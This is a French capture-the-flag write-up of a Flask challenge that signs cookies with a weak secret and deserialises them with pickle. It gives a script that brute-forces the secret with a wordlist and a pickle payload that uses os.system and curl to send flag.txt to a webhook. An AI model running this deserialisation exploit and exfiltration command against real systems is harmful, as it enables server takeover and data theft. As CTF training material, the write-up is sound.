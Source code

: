 
# Lurenberg Cookies

> On a trouvé le blog personnel d'un membre de l'organisation, On sait qu'il cache des infos intéressantes dans un dossier flag.txt mais on a pas réussi à accéder au fichier, on nous a dit qu'il adore les cookies typiques de Lurenberg !


## Reconnaissance

En se connectant au challenge, on tombe sur cette page nous demandant de nous identifier :

![](./home.png)

Après avoir rafraichis la page une fois, nous arrivons sur la page d'accueil.

![](./logged.png)

Par chance nous avons accès au code source, ce qui nous donne de précieuses indications de où commencer à chercher.

```python
from flask import Flask, request, make_response, render_template, send_from_directory
import hashlib
import base64
import pickle
import os
from dotenv import load_dotenv

load_dotenv()

app = Flask(__name__)
SECRET_KEY = os.environ.get('SECRET_KEY')

def sign_data(data):
    return hashlib.sha256((data + SECRET_KEY).encode()).hexdigest()

def serialize_data(data):
    return base64.b64encode(pickle.dumps(data)).decode()

def deserialize_data(data):
    return pickle.loads(base64.b64decode(data))

@app.route('/public/<path:path>')
def send_report(path):
    return send_from_directory('public', path)

@app.route('/')
def index():
    try:
        signed_cookie = request.cookies.get('signed_cookie')
        
        if signed_cookie:
            cookie_data, signature = signed_cookie.split('.')
            if hashlib.sha256((cookie_data + SECRET_KEY).encode()).hexdigest() == signature:
                result = deserialize_data(cookie_data)
                return render_template('success.html', result=result)
            else:
                return render_template('error.html', message="Signature invalide!"), 403
        else:
            initial_data = "You're either with us or against us"
            serialized_data = serialize_data(initial_data)
            signed_data = sign_data(serialized_data)
            signed_cookie_value = f"{serialized_data}.{signed_data}"
            response = make_response(render_template('welcome.html'))
            response.set_cookie('signed_cookie', signed_cookie_value)
            return response
    except Exception as e:
        return render_template('error.html', message=str(e)), 500

@app.errorhandler(404)
def page_not_found(e):
    return render_template('error.html', message="Page non trouvée!"), 404

@app.errorhandler(500)
def internal_server_error(e):
    return render_template('error.html', message="Erreur interne du serveur!"), 500

@app.errorhandler(Exception)
def handle_exception(e):
    return render_template('error.html', message="Une erreur est survenue!"), 500

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

On a ici quelques passages très intéressants.

L'utilisation de pickle, qui rend notre code vulnérable à l'exécution de code côté serveur au moment de la désérialisation.

```python
import pickle
```

On peut voir ici la logique de signature, sérialisation et désérialisation du cookie utilisateur. 

```python
def sign_data(data):
    return hashlib.sha256((data + SECRET_KEY).encode()).hexdigest()

def serialize_data(data):
    return base64.b64encode(pickle.dumps(data)).decode()

def deserialize_data(data):
    return pickle.loads(base64.b64decode(data))
```

Ainsi que le mécanisme de vérification de la signature du cookie.

```python
@app.route('/')
def index():
    try:
        signed_cookie = request.cookies.get('signed_cookie')
        
        if signed_cookie:
            cookie_data, signature = signed_cookie.split('.')
            if hashlib.sha256((cookie_data + SECRET_KEY).encode()).hexdigest() == signature:
                result = deserialize_data(cookie_data)
                return render_template('success.html', result=result)
            else:
                return render_template('error.html', message="Signature invalide!"), 403
        else:
            initial_data = "You're either with us or against us"
            serialized_data = serialize_data(initial_data)
            signed_data = sign_data(serialized_data)
            signed_cookie_value = f"{serialized_data}.{signed_data}"
            response = make_response(render_template('welcome.html'))
            response.set_cookie('signed_cookie', signed_cookie_value)
            return response
    except Exception as e:
        return render_template('error.html', message=str(e)), 500
```

On apprend alors :
	- Le cookie est désérialisé avec Pickle
	- La signature est la concaténation hashé en SHA256 de la donnée initiale + un secret

Partant de là on peut alors construire un script d'exploitation.

## Exploitation + Exfiltration

On peut construire un petit script d'exploitation pour essayer de chainer les vulnérabilité et extraire le flag.

Dans un premier temps, on va essayer de retrouver le secret utilisé pour signer les cookies.

```python
import requests
import hashlib
import base64
import pickle
import os
  
TARGET =  'http://127.0.0.1:5000/'
WORDLIST_PATH =  './rockyou-75.txt'

def  bruteforce_secret():
	initial_cookie = requests.get(TARGET).cookies
	signed_cookie = initial_cookie.get('signed_cookie')
	initial_data, initial_signature = signed_cookie.split('.')
  

	with  open(WORDLIST_PATH, 'r', encoding='latin-1') as f:
		wordlist = f.read().splitlines()
  
	for password in wordlist:
		signature = hashlib.sha256((initial_data + password).encode()).hexdigest()
		if signature == initial_signature:
			print("Secret key found:", password)
			return password
		print("Trying:", password)
	print("No secret key in the wordlist.")
	return  None  
  
def  main():
	secret = bruteforce_secret()
  
if  __name__  ==  '__main__':
	main()
```

Ce script récupère le cookie du challenge pour tenter de le bruteforce en local. On utilise ici la wordlist rockyou-75.txt

On exécute on retrouve bien le secret.

![](./secret.png)

Maintenant, il ne nous reste plus qu'à forger une requête qui renvoie le contenu de flag.txt vers un webhook et le tour est joué !

```python
import requests
import hashlib
import base64
import pickle
import os
  
TARGET =  'http://127.0.0.1:5000/'
WEBHOOK_URL =  'https://webhook.site/unique-id'
WORDLIST_PATH =  './rockyou-75.txt'  

class  Malicious:
	def  __reduce__(self):
		# Send flag to webhook
		command =  f'curl {WEBHOOK_URL} --data-urlencode "flag=`cat flag.txt`"'
		return (os.system, (command,))
  
def  serialize_data(data):
	return base64.b64encode(pickle.dumps(data)).decode()
  
def  bruteforce_secret():
	initial_cookie = requests.get(TARGET).cookies
	signed_cookie = initial_cookie.get('signed_cookie')
	initial_data, initial_signature = signed_cookie.split('.')  

	with  open(WORDLIST_PATH, 'r', encoding='latin-1') as f:
		wordlist = f.read().splitlines()
  
	for password in wordlist:
		signature = hashlib.sha256((initial_data + password).encode()).hexdigest()
		if signature == initial_signature:
			print("Secret key found:", password)
			return password
		print("Trying:", password)
	print("No secret key in the wordlist.")
	return  None  
  
def  final_malicious_cookie(secret):
	#forging cookie
	malicious_obj = Malicious()
	serialized_data = serialize_data(malicious_obj)
	signature = hashlib.sha256((serialized_data + secret).encode()).hexdigest()
	return  f"{serialized_data}.{signature}"
  
def  send_malicious_cookie(signed_cookie):
	#send payload to app
	cookies = {'signed_cookie': signed_cookie}
	response = requests.get(TARGET, cookies=cookies)
	return response.text
  
def  main():
	secret = bruteforce_secret()
	if secret:
		signed_cookie = final_malicious_cookie(secret)
		result = send_malicious_cookie(signed_cookie)
		print("Server response:", result)
  
if  __name__  ==  '__main__':
	main()
```

On récupère alors le flag directement dans notre webhook : 

![](./flag.png)

```ECTF{Why_4r3_w3_us1ng_cust0m_s4n1t1z4t10n?}```
